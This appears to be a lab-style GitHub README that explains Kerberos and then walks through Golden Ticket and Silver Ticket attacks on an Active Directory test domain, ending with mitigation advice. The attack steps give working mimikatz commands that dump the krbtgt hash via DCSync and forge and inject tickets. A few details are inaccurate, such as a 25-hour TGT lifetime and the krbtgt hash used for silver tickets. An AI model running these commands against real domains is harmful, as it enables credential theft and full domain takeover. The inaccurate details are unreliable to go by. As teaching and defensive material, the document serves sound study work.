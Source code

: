 <h1 style="color:red">#EnterpriseNetworkingSquad</h1>

##Active Directory Attacks



<h1></h1>
<h3 style="color:orange">What is Kerberos?</h3>

Kerberos is designed to provide authentication of user identity in a networked computing environment consisting of workstations and servers.

The Kerberos authentication system is built on top of tickets served by KDC (Key Distribution Center). The core idea behind Kerberos is that the users don’t share account passwords to each service they want to use. Instead, they share a ticket which they get from KDC.
When a user first starts using the system, they will use their password to get a master ticket called a TGT (Ticket Granting Ticket). This master ticket expires in 25 hours, after which, the user will need to enter the password again to get another one.
When the user needs service access, that uses Kerberos, they will show that master ticket (TGT) to the Kerberos server and get a ticket specifically for that service. Then, user shows the ticket just for that service to the service to prove who you are.



<h1></h1>
<h3 style="color:orange">Steps in Kerberos Authentication</h3>

1. Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the authentication ticket (TGT) request (as Request).

2. The Domain Controller (KDC) checks user information & creates Ticket-Granting Ticket (TGT).

3. The TGT is encrypted, signed, & delivered to the user (as Response). Only the Kerberos service (KRBTGT) in the domain can open and read TGT data.

4. The User presents the TGT to the DC when requesting a Ticket Granting Service (TGS) ticket (TGS Request). The data in the TGT is effectively copied to create the TGS ticket.

5. The TGS is encrypted using the target service account's NTLM password hash and sent to the user (TGS Response).

6. The user connects to the server hosting the service on the appropriate port & presents the TGS. The service opens the TGS ticket using its NTLM password hash.


<h1></h1>
<h2 style="color:yellow">Golden Ticket Attack</h2>

A Golden Ticket attack is when an attacker has complete and unrestricted access to an entire domain — all computers, files, folders, and most importantly, the access control system itself. Golden Ticket attacks can be carried out against Active Directory domains, where access control is implemented using Kerberos tickets issued to authenticated users by a Key Distribution Service. The attacker gains control over the domain’s Key Distribution Service account (KRBTGT account) by stealing its NTLM hash. This allows the attacker to generate Ticket Granting Tickets (TGT) for any account in the Active Directory domain. With valid TGTs, the attacker can request access to any resource/system on its domain from the Ticket Granting Service (TGS). Because the attacker is controlling the component of the access control system that is responsible for issuing Ticket Granting Tickets (TGT), then he has the golden ticket to access any resource on the domain.


<h3>Requirements:</h3>
1. Domain Name
2. Domain SID
3. Domain's KRBTGT Account NTLM Hash
4. UserID for impersonation

<h3>Steps to Perform the Attack</h3>

1. Login into any user (Anuvinda user) and open powershell. Navigate to ```mimikatz.exe``` and execute the exe file.

![](AD_Attacks/1.png)

2. Run ```lsadump::dcsync /domain:Mahabharata.ns /user:krbtgt```. If you don't know the Domain Controller name then use ```get-aduser krbtgt``` command and observe the Domain Controller name. Note the domain SID and NTLM Hash of krbtgt user from the output.

![](AD_Attacks/2.png)

3. Run ```kerberos::golden /domain:Mahabharata.ns /sid:<Your Domain SID> /rc4:<NTLM Hash of krbtgt user> /id:500 /user:<Your user name>``` to generate the golden ticket.

![](AD_Attacks/3.png)

4. Run ```kerberos::ptt ticket.kirbi``` to pass the generated ticket to get Domain Controller's privileges.

![](AD_Attacks/4.png)

5. Open Command Promt and observe that you got Domain Controller's privileges.

![](AD_Attacks/5.png)


<h1></h1>
<h2 style="color:yellow">Silver Ticket Attack</h2>

A Silver Ticket is a forged service authentication ticket. An Attacker can create a Silver Ticket by cracking a computer account password and using that to create a fake authentication ticket. Kerberos allows services (low-level Operating System programs) to log in without double-checking that their token is actually valid, which hackers have exploited to create Silver Tickets. Silver Tickets are harder to detect than Golden Tickets because there is no communication between the service and the DC – and any logging is local to the targeted computer.


<h3>Steps to Perform the Attack</h3>

1. Login into any user (Anuvinda user) and open powershell. Navigate to ```mimikatz.exe``` and execute the exe file.

![](AD_Attacks/6.png)

2. Run ```kerberos::golden /domain:Mahabharata.ns /sid:<Your Domain SID> /ptt /id:500 /service:<Service Name> /rc4:<NTLM Hash of krbtgt user> /user:<Your user name>```

![](AD_Attacks/7.png)

3. Exit the mimikatz and run ```klist``` to list the created user for MSSQL service.

![](AD_Attacks/8.png)


<h1></h1>
<h2 style="color:orange">Mitigation</h2>


<h2 style="color:yellow">Golden Ticket Attack</h2>

Golden Tickets are very difficult to detect, because they are perfectly valid TGTs. However, in most cases they are created with lifespans of 10 years or more, which far exceeds the default values in Active Directory for ticket duration. Unfortunately, event logs do not log the TGT timestamps in the authentication logs, but other AD monitoring products are capable of doing so. If you do see that Golden Tickets are in use within your organization, you must `reset the KRBTGT account twice`, which may have other far-reaching consequences.

The most important protection against golden tickets is to `restrict Domain Controller logon rights`. There should be the absolute `minimum number of Domain Admins`, as well as members of other groups that provide logon rights to DCs such as Print and Server Operators. In addition, `a tiered logon protocol should be used` to prevent Domain Admins from logging on to servers and workstations where their password hashes can be dumped from memory and used to access a DC to extract the KRBTGT account hash.


<h2 style="color:yellow">Silver Ticket Attack</h2>

Detecting Silver Tickets can be very difficult since this bypasses the entire TGT portion of authentication and cannot be monitored by looking at Domain Controller logs. The best way to prevent these attacks is to enforce proper security over service accounts to avoid having these accounts compromised to begin with. Monitoring for logon anomalies using local logon events, such as the one shown above, can also be effective in protecting your organization. Additional mitigation steps:

1. Limit credential overlap across systems to prevent the damage of credential compromise

2. Ensure that local administrator accounts have complex, unique passwords

3. Do not allow a user to be a local administrator for multiple systems

4. Limit domain admin account permissions to domain controllers and limited servers

5. Delegate other admin functions to separate accounts